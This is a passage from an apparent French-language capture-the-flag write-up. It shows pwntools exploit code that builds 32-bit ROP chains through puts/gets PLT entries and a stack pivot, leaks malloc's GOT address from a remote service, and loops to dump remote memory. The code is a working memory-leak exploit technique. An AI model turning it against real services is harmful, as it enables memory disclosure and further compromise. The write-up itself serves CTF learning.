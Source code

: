 ```
    chaine+=p32(pop1)
    chaine+=p32(adr)
    chaine+=p32(puts_plt)
    chaine+=p32(pop1)
    chaine+=p32(income)
    chaine+=p32(gets_plt)
    chaine+=p32(pop1)
    chaine+=p32(pile)
    chaine+=p32(puts_plt)
    chaine+=p32(pop1)
    chaine+=p32(correct)
    chaine+=p32(pop_ebp)
    chaine+=p32(pile)
    chaine+=p32(leave)
    chaine+="\n"
    p.send(chaine)
    recu=p.recvuntil("Income")
    buf=recu[recu.index("Deductible")+17:recu.index("Income")-1]+"\x00"
    print 'len buf=',len(buf)
    return(buf)
```

La lecture de la mémoire se fait par
```
l=0
long=0x1000	<---- longueur voulue
offset=0x00041000
buffer=""
while(l<long):
    OK=0
    nessai=5
    while(OK==0):
        p=remote(host,port)
        try:
            p.recvuntil("Trump")
            chaine=PAD
            chaine+=p32(nom1)
            chaine+=p32(puts_plt)
            chaine+=p32(pop1)
            chaine+=p32(malloc_got)
            chaine+=p32(puts_plt)
            chaine+=p32(pop1)
            chaine+=p32(deductible)
            chaine+=p32(puts_plt)
            chaine+=p32(pop1)
            chaine+=p32(malloc_got)
            chaine+=p32(gets_plt)
            chaine+=p32(pop1)
            chaine+=p32(pile)
            chaine+=p32(puts_plt)
            chaine+=p32(pop1)
            chaine+=p32(pile)
            chaine+=p32(pop_ebp)
            chaine+=p32(pile)
            chaine+=p32(leave)
            rep=send("eductible",chaine)
            malloc=word(rep[36:36+4])
            print "Malloc=",hex(malloc)
    # zone où on veut lire	    
            zone_a_lire=malloc-0x00075b60+ offset
            print 'delta=',hex(0*16)	   <--- pour s'y retrouver
            while(l<long):
                buf=getadd1(zone_a_lire+l)
                dump(zone_a_lire+l,buf)	   <--- affichage
```